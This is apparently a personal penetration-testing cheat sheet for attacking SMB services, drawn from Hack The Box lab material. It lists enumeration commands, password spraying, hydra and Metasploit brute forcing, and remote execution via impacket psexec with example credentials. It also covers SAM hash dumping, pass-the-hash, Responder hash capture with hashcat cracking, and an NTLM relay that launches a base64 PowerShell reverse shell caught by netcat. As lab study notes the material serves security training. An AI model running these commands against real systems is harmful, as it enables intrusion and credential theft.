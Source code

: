 #### **Nmap**
`EmaadAbbasi@htb[/htb]$ sudo nmap 10.129.14.128 -sV -sC -p139,445`

| **Command**                                       | **Description**                                           |
| ------------------------------------------------- | --------------------------------------------------------- |
| `smbclient -N -L //<FQDN/IP>`                     | Null session authentication on SMB.                       |
| `smbclient //<FQDN/IP>/<share>`                   | Connect to a specific SMB share.                          |
| `rpcclient -U "" <FQDN/IP>`                       | Interaction with the target using RPC.                    |
| `impacket-samrdump <FQDN/IP>`                     | Username enumeration using Impacket scripts.              |
| `smbmap -H <FQDN/IP>`                             | Enumerating SMB shares.                                   |
| `crackmapexec smb <FQDN/IP> --shares -u '' -p ''` | Enumerating SMB shares using null session authentication. |
| `enum4linux-ng <FQDN/IP> -A`                      | SMB enumeration using enum4linux.                         |
**Note**:  Smbclient also allows us to execute local system commands using an exclamation mark at the beginning (`!<cmd>`) without interrupting the connection.

### **Add a share to SAMBA**

```
# Add following to /etc/samba/smb.conf

[print$]
   comment = Printer Drivers
   path = /var/lib/samba/printers
   browseable = yes
   read only = yes
   guest ok = no


# Restart Samba
sudo systemctl restart smbd
```

### Brute Forcing
**Password Spraying**

```shell-session
Orbixio@htb[/htb]$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```
**Dictionary Attack**
```shell-session
Orbixio@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

> [!ERROR] Error Hydra
> `[ERROR] invalid reply from target smb://10.129.42.197:445/`
> This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

```shell-session
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts
```
Execution as Administrator

- [Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) - Python PsExec like functionality example using [RemComSvc](https://github.com/kavika13/RemCom).
- [Impacket SMBExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py) - A similar approach to PsExec without using [RemComSvc](https://github.com/kavika13/RemCom). The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
- [Impacket atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py) - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) - includes an implementation of `smbexec` and `atexec`.
- [Metasploit PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md) - Ruby PsExec implementation.

```shell-session
Orbixio@htb[/htb]$ impacket-psexec administrator:'Password123!'@10.10.110.17
```

The same options apply to `impacket-smbexec` and `impacket-atexec`.

```shell-session
# Execution using cme
Orbixio@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec

# Enumerate logged-users
Orbixio@htb[/htb]$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

# Dump SAM hashes
Orbixio@htb[/htb]$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

# Login with hash
Orbixio@htb[/htb]$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```


Forced Auth Attacks

```shell-session
Orbixio@htb[/htb]$ responder -I <interface name>
```

```shell-session
Orbixio@htb[/htb]$ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

**NTLM Relay Attack**
If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py). 

First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`).

```shell-session
Orbixio@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64).

```shell-session
Orbixio@htb[/htb]$ impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 goes here>'
```

```shell-session
Orbixio@htb[/htb]$ nc -lvnp 9001
```

[SMBGhost](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)

https://www.exploit-db.com/exploits/48537
## **Further Refrences**

- [[RPC Client]]
- https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf
- https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html


